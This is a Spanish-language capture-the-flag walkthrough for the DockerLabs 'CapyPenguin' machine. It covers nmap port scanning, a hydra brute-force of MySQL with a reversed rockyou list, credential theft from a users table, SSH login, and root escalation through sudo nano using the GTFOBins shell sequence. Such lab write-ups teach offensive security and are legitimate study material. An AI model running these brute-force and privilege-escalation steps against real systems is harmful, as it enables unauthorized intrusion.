









# [CapyPenguin](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh capypenguin.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>


<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22** y **3306**.
<br>



<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP podemos ver una página como está:
<br>



<br>

Y nos está dando alguna pista respecto al rockyou cuando vayamos a aplicar fuerza bruta, además nos indica un posible usuario que sería **capybarauser**

<br>
<br>

## Hydra / Medusa

Pero antes de empezar a hacer fuerza bruta, debemos seguir la pista que nos dejó en la web, para llevar a cabo eso nos copiamos el rockyou a nuestro directorio de trabajo con `cp /usr/share/wordlists/rockyou.txt .`, una vez copiado le damos la vuelva al rockyou con el siguiente comando `tac rockyou.txt > mirockyou.txt`. Por lo que ahora estaremos preparados para aplicar fuerza bruta. En primer lugar la aplicaremos al servicio ssh pero sin éxito. Por lo que después probamos a hacer fuerza bruta al servicio mysql `hydra -l capybarauser -P /home/kali/dockerlabs/CapyPenguin/mirockyou.txt mysql://172.17.0.2 -t 4 -I`. <br>
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br>
`-t` ⮞ número de interacciones para evitar el error de abajo <br> 
`-I` ⮞ para que sobrescriba el archivo hydra.restore en el caso de que hayamos cancelado un proceso de fuerza bruta antes <br> 
<br>

> Si te da un error como el de abajo, entra **aquí** para solucionarlo__:
<br>


<br>

Una vez hecha la fuerza bruta al mysql, nos encontrará las siguientes credenciales para el usuario **capypenguin**:
<br>

(imagen)

<br>
<br>

## Mysql (Puerto 3306)

Accedemos al servidor de mysql con la siguiente instrucción: `mysql -u capypenguin -p` ponemos la contraseña, comprobamos que podemos acceder:
<br>



<br>

Listamos las bases de datos con `show databases;`: 
<br>


<br>

Vemos varias bases de datos pero todas menos la de `pinguinasio_db` son las de por defecto, por lo que entramos a la base de datos `pinguinasio_db` con `use pinguinasio_db`. Una vez seleccionada, listamos las tablas de dicha base de datos con `show tables`:
<br>



<br>

Observamos que hay una tabla llamada `users` por lo que haremos `select * from users` lo cual nos permitirá listar todo el contenido de dicha tabla. Nos mostraría el siguiente contenido:
<br>



<br>
<br>


## SSH(Puerto 22)

Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina CapyPenguin a través del ssh de la siguiente forma `ssh mario@172.17.0.2`, y a continuación nos pedirá la contraseña. Podemos ver que estamos dentro de la máquina con `hostname -I ; whoami`.<br>
 > El (;) concatena dos comandos.
<br>



<br>
<br>

## Escala de Privilegios

Una vez dentro de la máquina ejecutamos `sudo -l` observamos que podemos correr `/usr/bin/nano` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).<br>
<br>



<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de `sudo` en `/usr/bin/nano`, y nos encontramos con lo siguiente:
<br>



<br>

Por lo cual para elevar privilegios lo que debemos hacer es seguir dichos pasos ejecutando los sigueintes comando en este orden: 
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. sudo -u root /usr/bin/nano<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. CTRL + R<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. CTRL + X<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 4-. reset; bash 1>&0 2>&0 <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 5-. CTRL + L
<br>

Y listo ya somos root!
<br>


